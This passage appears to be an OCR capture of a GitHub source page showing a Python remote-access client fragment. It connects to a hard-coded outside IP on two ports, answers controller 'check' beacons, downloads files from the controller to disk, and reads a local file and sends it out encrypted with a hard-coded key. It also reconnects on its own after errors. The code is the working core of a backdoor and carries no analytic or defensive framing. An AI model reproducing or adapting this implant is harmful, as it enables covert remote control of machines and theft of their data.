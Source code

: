 ```python
        return b"echo Try it again"

def receive_file():
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(("13.61.7.218", 54163))
    
    # Receive file metadata
    received = client2.recv(BUFFER_SIZE).decode()
    filename, filesize = received.split(SEPARATOR)
    filesize = int(filesize)
    
    # Decrypt and save file
    with open(filename, "wb") as f:
        total_bytes = 0
        while total_bytes < filesize:
            bytes_read = client2.recv(BUFFER_SIZE)
            decr_file = dec_file_mes(bytes_read, "5UUfizsRsP7oOCAq")  # Key should be defined elsewhere
            f.write(decr_file)
            total_bytes += len(bytes_read)
    
    client2.send(enc_mes("ok2", "5UUfizsRsP7oOCAq"))
    client2.close()

def receive(client, k):
    client.settimeout(600)
    while True:
        try:
            message = client.recv(1024)
            msg = dec_mes(message, k)
            if msg == b"check":
                enc_answer = enc_mes("check-ok", k)
                client.send(enc_answer)
            elif msg == b"send_file":
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()
            elif msg == b"get_file":
                with open("some_file", "rb") as f:  # File path should be dynamic
                    bytes_read = f.read()
                    bytes_enc = enc_mes(bytes_read, k)
                    client.sendall(bytes_enc)
            else:
                print("Bad command!")
        except Exception:
            time.sleep(10)
            print("Reconnect!")
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(CONN)
            continue

if __name__ == "__main__":
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(("13.61.7.218", 55155))
    key = "5UUfizsRsP7oOCAq"  # This should be securely generated or provided
    receive_thread = threading.Thread(target=receive, args=(client, key))
    receive_thread.start()
```
